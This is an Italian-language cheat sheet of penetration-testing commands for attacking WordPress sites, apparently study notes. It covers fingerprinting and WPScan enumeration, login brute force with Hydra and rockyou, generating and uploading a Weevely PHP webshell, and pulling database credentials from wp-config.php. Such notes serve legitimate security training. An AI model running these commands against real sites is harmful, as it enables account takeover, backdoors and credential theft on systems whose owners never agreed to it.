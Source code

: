# 📰 WordPress Exploitation & Enumeration

Appunti e snippet per la fase di **ricognizione e attacco su WordPress**.

## 📌 Obiettivi

* Identificare se il target usa **WordPress**
* Enumerare versioni, plugin, temi e utenti
* Cercare vulnerabilità note sfruttabili
* Preparare brute force / exploit mirati

---

## 🔎 Riconoscere WordPress

**Perché farlo:**
Prima di lanciare WPScan conviene verificare che il target sia effettivamente WordPress.

### 🔹 Comandi rapidi

```bash
# Fingerprint con WhatWeb
whatweb http://<target-ip>/

# Cerca indizi di WordPress (wp-content, wp-admin)
curl -s -I http://<target-ip>/ | grep "wp-"
```

---

## 🛠️ WPScan (Main Tool)

**Perché usarlo:**
Strumento principale per l’enumerazione WordPress: versione, utenti, plugin, temi, vuln DB integrato.

**Opzioni principali:**

* `--url` → target
* `--enumerate` → enumera info (u = users, p = plugins, t = themes, vp = vuln plugins, vt = vuln themes)
* `--api-token` → usa database ufficiale di vulnerabilità (serve token gratuito)
* `-P` → brute force con wordlist
* `-U` → specifica username o lista di utenti

### 🔹 Comandi diretti

```bash
# Enum base
wpscan --url http://<target-ip> --enumerate u

# Enum plugin e versioni vulnerabili
wpscan --url http://<target-ip> --enumerate p --api-token <TOKEN>

# Enum utenti + brute force password
wpscan --url http://<target-ip> -U users.txt -P /usr/share/wordlists/rockyou.txt
```

### 💾 Salvataggio su file

```bash
wpscan --url http://<target-ip> --enumerate u,p,t --api-token <TOKEN> -o wpscan.txt
```

---

## 📦 Droopescan (Alternative CMS Scanner)

**Perché usarlo:**
Può rilevare plugin, temi e versioni di CMS (Drupal, SilverStripe, Joomla, WordPress).

### 🔹 Comando base

```bash
droopescan scan wordpress -u http://<target-ip>/
```

---

## 🗂️ CMSmap (Cross-CMS Enumeration)

**Perché usarlo:**
Supporta più CMS, incluso WordPress. Buono per test veloci.

### 🔹 Comando base

```bash
cmsmap http://<target-ip> -f W
```

---

## 🔑 Login Bruteforce (Hydra Alternative)

**Perché usarlo:**
Se WPScan non basta o vuoi parallelizzare.

### 🔹 Comando con Hydra

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt <target-ip> http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:Invalid username"
```

---

## 🐚 Upload Shell / Exploit

**Perché usarlo:**
Se puoi caricare file (es. plugin, media upload), testare upload di una **webshell**.

### 🔹 Quick example

```bash
# Usa Weevely per generare una webshell PHP
weevely generate pass123 shell.php

# Caricala in /wp-content/uploads/
```

---

## ⚡ Workflow tipico su WP

1. **Identifica** → WhatWeb / manual check `/wp-content/`
2. **Enumera** → WPScan (utenti, plugin, temi, vuln)
3. **Cerca credenziali** → brute con WPScan/Hydra
4. **Exploita** → plugin vulnerabili o shell upload
5. **Post-Explo** → wp-config.php (credenziali DB)

```bash
# Se ottieni accesso al server → dump credenziali MySQL
cat wp-config.php | grep DB_
```
